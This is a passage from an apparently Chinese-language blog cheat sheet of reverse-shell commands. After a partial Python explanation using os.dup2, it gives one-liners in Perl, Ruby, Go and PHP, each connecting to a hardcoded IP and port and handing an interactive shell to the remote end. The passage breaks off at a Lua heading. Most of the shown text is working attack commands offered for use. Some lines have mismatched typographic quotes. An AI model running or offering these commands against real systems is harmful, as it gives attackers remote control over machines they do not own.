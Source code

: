 [![复制代码](https://assets.cnblogs.com/images/copycode.gif)](javascript:void(0);)

- 使用duo2方法将第二个形参（文件描述符）指向第一个形参（socket链接）
  - os.dup2(s.fileno(),0)
  - os.dup2(s.fileno(),1)
  - os.dup2(s.fileno(),2)
- 使用os的subprocess在本地开启一个子进程，启动bash交互模式，标准输入、标准输出、标准错误输出被重定向到了远程

### 2. perl反弹shell 

[![复制代码](https://assets.cnblogs.com/images/copycode.gif)](javascript:void(0);)

```
perl -e 'use Socket;$i=”10.211.55.2";$p=7777;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# 拆成多行方便阅读
use Socket
$i=”10.211.55.2"
$p=7777
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"))
if(connect(S,sockaddr_in($p,inet_aton($i)))){
    open(STDIN,">&S")
    open(STDOUT,">&S")
    open(STDERR,">&S")
    exec("/bin/sh -i")
}
```

[![复制代码](https://assets.cnblogs.com/images/copycode.gif)](javascript:void(0);)

### 3. ruby反弹shell

```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)’
```

### 4. go反弹shell

```
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","192.168.0.134:8080");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```

#### 5. php反弹shell

```
php –r  'exec("/bin/bash -i >& /dev/tcp/127.0.0.1/7777")’
```

### 6. lua反弹shell
